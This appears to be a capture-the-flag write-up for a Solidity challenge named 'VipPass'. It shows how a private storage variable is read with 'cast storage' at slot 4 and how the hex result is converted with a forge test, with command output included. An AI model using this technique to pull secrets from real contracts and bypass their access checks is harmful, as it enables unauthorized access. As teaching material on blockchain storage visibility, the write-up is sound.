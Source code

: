 
Comment has been added on the function that will be exploited.

## Exploitation

### VipPass

By seeing this contract, the goal was pretty clear. We want to get the vip pass. One thing that should never be forgotten in solidity:

> Nothing is private in smart contracts!

The public variable can be accessed easly with call instruction. In other hand, the private variable can be accessed only with the function rpc function `eth_getStorageAt` (the name may be different depending of the client). The slot storage are explains in depth in [soliditylang](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html).

Basically, compare to other types, uint256 is easy to understand. Its position slot is the position of the declared variable (note that the mapping does not count). In our case `uint256 private vipPass;` is at position **4**, the variable `boss` (the owner of the contract) is at position **5**.

To access the variable `vipPass`, we will use cast from the foundry binaries:

```bash
$ # cast storage <contract address> <slot number>
$ cast storage 0xD5c0873f147cECF336fEEF1a28474716C745Df86 4
0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080
```

The function `senior()` returns the vipPass as an `uint256` value. The `cast storage` command returns the value as a hexadecimal string. We can either use an [online converter](https://www.rapidtables.com/convert/number/hex-to-decimal.html) or solidity (with foundry dependencies).

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
contract ContractTest is Test {
    function convert() public {
   //address test = address(0x9A5a04eCC45BB46877ADcd1Fa4dB82C08D1bd080);
   //uint256 test2 = uint256(uint160(test));
   uint256 test3 = 0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080;
   emit log_named_uint("test2: ", test3);
    }
}
```

This contract can be executed with the `forge` command:

```bash
$ forge run test/Converter.t.sol --fork-url http://127.0.0.1:8545 --sig "convert()"
[⠒] Compiling...
[⠆] Compiling 6 files with 0.8.13
[⠰] Solc 0.8.13 finished in 2.05s
Compiler run successful
Script ran successfully.
Gas used: 2108
== Return ==
== Logs ==
  test2: : 38330739118242568697380065849010598905319469511070891991863930858741423657088
```
